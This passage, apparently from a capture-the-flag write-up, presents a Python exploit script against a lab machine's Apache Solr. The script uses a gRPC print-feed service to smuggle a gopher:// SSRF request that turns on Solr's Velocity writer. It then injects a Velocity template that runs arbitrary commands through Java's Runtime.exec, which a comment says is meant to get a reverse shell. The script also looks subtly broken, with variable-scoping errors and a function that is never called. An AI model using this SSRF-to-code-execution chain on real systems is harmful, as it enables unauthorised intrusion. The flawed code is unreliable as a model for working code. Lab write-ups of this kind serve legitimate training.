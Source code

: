 Solr is an open source application from Apache which provides searching and indexing capabilities for large amounts of data.  Using the code from the exploit and my client from earlier I crafted a python script that would connect to the server, change the configuration to enable code execute, then allow for execution of arbitrary commands specified as arguments to the script.  

```python
import laser_pb2
import laser_pb2_grpc
import grpc
import base64
import pickle
import os
import sys
from func_timeout import func_set_timeout, FunctionTimedOut
from urllib.parse import quote

#this data set will configure the system to allow command execution
data1 = "gopher://localhost:8983/_POST /solr/staging/config HTTP/1.1%0D%0AHost:127.0.0.1:8983%0D%0AContent-Type: application/json%0D%0AContent-Length:218%0D%0A%0D%0A{'update-queryresponsewriter': {'startup': 'lazy', 'name':'velocity', 'class': 'solr.VelocityResponseWriter', 'template.base.dir': '','solr.resource.loader.enabled': 'true', 'params.resource.loader.enabled':'true'}"

#need to use 'quote' since the argument is a string inside quotes with spaces; otherwise will be parsed as separate arguments
#this is the command injection I will use on the system to get a reverse shell
cmd = quote(sys.argv[1])
data2 = f"http://localhost:8983/solr/staging/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27{cmd}%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"

#Can't use direct variable substitution since I have two different vars this time.  Use feed.replace() instead
feed = '{"version": "v1.0", "title": "Printer Feed", "feed_url": "replaceMe"}'

#no creds, so need insecure channel
channel = grpc.insecure_channel("10.10.10.201:9000")
stub = laser_pb2_grpc.PrintStub(channel)

#this @func_set_timeout(5) will make it so execution will continue after 5 seconds; This is needed since it hangs on this part otherwise
@func_set_timeout(5)
def configServer():
  #need to replace the word "replaceMe" from the feed with the configuration string data1
  feed = feed.replace("replaceMe", data1)
  serialized = base64.b64encode(pickle.dumps(feed))
  dataToPrint = stub.Feed(laser_pb2.Content(data = serialized))
  print(dataToPrint.feed)

def get_shell():
  #need to replace the word "replaceMe" from the feed with the command injection string data2
  feed = feed.replace("replaceMe", data2)
  serialized = base64.b64encode(pickle.dumps(feed))
  dataToPrint = stub.Feed(laser_pb2.Content(data = serialized))
  print(dataToPrint.feed)

try:
    #Need to put this in try/except since it definitely causes an exception, which we will ignore and pass
    configServer()
except:
    pass

```